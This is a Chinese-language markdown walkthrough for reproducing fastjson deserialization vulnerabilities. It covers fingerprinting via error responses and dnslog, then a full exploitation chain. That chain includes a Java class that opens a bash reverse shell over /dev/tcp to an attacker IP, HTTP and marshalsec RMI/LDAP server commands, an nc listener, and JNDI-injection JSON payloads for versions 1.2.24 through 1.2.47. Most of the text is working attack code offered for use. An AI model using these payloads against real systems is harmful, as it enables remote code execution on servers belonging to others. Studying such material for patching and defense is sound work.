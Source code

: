 # fastjson复现

### fastjson指纹特征

1. 根据返回包判断

抓包，change request method为POST，post一个数据`{`，返回包在就会出现**fastjson**字样。当然这个错误可以屏蔽，如果屏蔽使用其它办法。

2. 利用dnslog盲打

http://www.dnslog.cn/

构造payload，利用dnslog平台接收

```java
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
```

1.2.67版本后payload

```java
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
畸形：
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```

### 漏洞利用

- 保存为Exploit.java，编译生成Exploit.class

{ip}   = 攻击者的ip
{port} = 攻击者nc接收的端口

```java
import java.io.*;

import java.util.*;

public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","/bin/bash -i >& /dev/tcp/192.168.120.68/1234 0>&1"});
        }catch (Exception e){}
    }
}
```

- 起一个http服务，确保能访问到Exploit.class

```python
//192.168.120.134:8080
python -m SimpleHTTPServer 8080
```

- marshalsec起RMI或LDAP服务

输入如下命令，启动一个RMI或LDAP服务器，监听9999端口

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.120.134:8080/#Exploit" 9999

or

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.120.134:8080/#Exploit" 9999
```

- nc监听端口

```bash
nc -lvvp 1234
```

- burp发包

请求方式改为POST，Content-Type: application/json

请求内容如下

ip为起rmi 服务的ip

端口为起rmi 服务的端口

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.120.134:9999/Exploit", "autoCommit":true}}
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.120.134:9999/Exploit", "autoCommit":true}}


1.2.47
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.120.134:9999/Exploit",
        "autoCommit":true
    }
}
```

- 成功反弹

### 一些POC

```java
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.41
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}

1.2.47
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```

